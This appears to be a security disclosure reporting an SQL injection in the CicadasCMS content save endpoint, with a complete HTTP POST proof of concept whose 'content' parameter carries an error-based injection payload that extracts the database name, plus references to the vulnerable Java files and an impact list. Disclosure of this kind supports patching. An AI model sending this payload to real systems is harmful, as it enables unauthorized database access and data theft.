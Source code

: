 💥 Vulnerability Report : SQL Injection in

------

**1. Product:**

- **Name:**  CicadasCMS
- **Version:** latest version
- **Repository:** https://gitee.com/westboy/CicadasCMS

------

**2. Vulnerability Type:**

- **Type:** SQL Injection (SQLi)

------

**3. Affected Component(s):**

- /content/save

------

**4. Attack Vector(s):**

Attackers can inject malicious SQL statements through the content parameter in the save interface. The backend directly obtains this parameter without input filtering or parameter precompilation, leading to SQL injection.

**5. Proof of Concept (PoC):**

```
POST /system/cms/content/save HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 751
Origin: http://localhost
Connection: close
Referer: http://localhost/system
Cookie: bjui_theme=blue; SESSION=f43bf728-f5bf-4110-9b1f-58cca099b88a
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

contentId=1249&userId=1&siteId=1&tableName=&status=0&title=%E4%B9%98%E7%9D%80%E6%AD%8C%E5%A3%B0%E7%9A%84%E7%BF%85%E8%86%80%E2%80%94%E2%80%94XXX%E5%B8%82%E9%9F%B3%E4%B9%90%E5%AE%B6%E5%8D%8F%E4%BC%9A%E6%96%87%E8%89%BA%E5%BF%97%E6%84%BF%E5%B0%8F%E5%88%86%E9%98%9F%E8%B5%B0%E8%BF%9B%E5%B8%82%E7%AC%AC%E5%9B%9B%E4%B8%AD%E5%AD%A6&keywords=XXX%E5%B8%82%E9%9F%B3%E4%B9%90%E5%AE%B6%E5%8D%8F%E4%BC%9A%E6%96%87%E8%89%BA%E5%BF%97%E6%84%BF%E5%B0%8F%E5%88%86%E9%98%9F%E8%B5%B0%E8%BF%9B%E5%B8%82%E7%AC%AC%E5%9B%9B%E4%B8%AD%E5%AD%A6&description=&categoryId=226&thumb=&url=&recommend=on&viewNum=242&author=%E9%83%AD%E5%B0%8F%E5%88%9A&tags=&content=' OR (SELECT EXTRACTVALUE(1,CONCAT(0x7e,(SELECT DATABASE()),0x7e))) OR '1&fujian=&laiyuan=XXX%E5%B8%82%E6%96%87%E8%81%94
```



If vulnerable, the response will contain an error message such as:


![Uploading 54f90a10de749eaef435217c6cd50ac3.png…]()




**6. Vulnerable Code Reference**

src/main/java/com/zhiliao/module/web/cms/ContentController.java

![](C:\Users\王小二\AppData\Roaming\Typora\typora-user-images\image-20251030095204805.png)

src/main/java/com/zhiliao/module/web/cms/ContentController.java

![image-20251030100422988](C:\Users\王小二\AppData\Roaming\Typora\typora-user-images\image-20251030100422988.png)





src/main/java/com/zhiliao/module/web/cms/service/impl/ContentServiceImpl.java

![image-20251030100317828](C:\Users\王小二\AppData\Roaming\Typora\typora-user-images\image-20251030100317828.png)

src/main/java/com/zhiliao/module/web/cms/service/impl/ContentServiceImpl.java

![image-20251030095852738](C:\Users\王小二\AppData\Roaming\Typora\typora-user-images\image-20251030095852738.png)

src/main/java/com/zhiliao/module/web/cms/service/impl/ContentServiceImpl.java

![image-20251030095811962](C:\Users\王小二\AppData\Roaming\Typora\typora-user-images\image-20251030095811962.png)



The above code receives the 'content' parameter input from the client and directly concatenates it into the SQL statement without any filtering or precompilation. Therefore, an attacker can inject SQL statements through the 'content' parameter, leading to an SQL injection vulnerability.



**7. Impact:**

- Data leakage (e.g., database users, names)
- Potential unauthorized access
- Escalation to full compromise depending on DBMS



**8. References:**


https://gitee.com/westboy/CicadasCMS

